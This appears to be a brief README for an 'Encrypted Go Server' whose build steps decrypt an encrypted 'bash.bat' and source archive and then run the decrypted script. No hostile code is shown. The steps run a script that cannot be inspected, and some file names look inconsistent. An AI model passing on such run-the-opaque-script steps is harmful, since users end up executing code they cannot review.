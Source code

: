 # ENCRYPTED
Encrypted Go Server

With PROFESSIONAL BUILD SYSTEM


```
cd encrypter009222z
make
cd ..
./encrypter009222z. -uf bash.bat.encrypted009222z. -o bash.bat

tar -xf main.go.tar.encrypted009222z..tar
./encrypter009222z. -uf main.go.tar.encrypted009222z. -o main.go.tar
tar -xf main.go.tar

bash bash.bat
```
